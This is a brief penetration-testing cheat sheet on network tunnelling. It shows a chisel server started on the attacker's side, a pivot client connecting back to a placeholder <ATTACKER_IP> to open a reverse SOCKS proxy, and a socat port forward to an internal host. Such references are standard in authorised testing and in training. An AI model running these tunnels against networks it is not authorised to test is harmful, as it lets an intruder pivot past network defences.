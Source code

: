 # Chisel & Socat Tunnelling

## Chisel – Reverse SOCKS
Attacker:

chisel server -p 8000 --reverse
Pivot:


chisel client <ATTACKER_IP>:8000 R:socks
Socat – Port Forward

socat TCP-LISTEN:8080,fork TCP:10.0.0.5:80
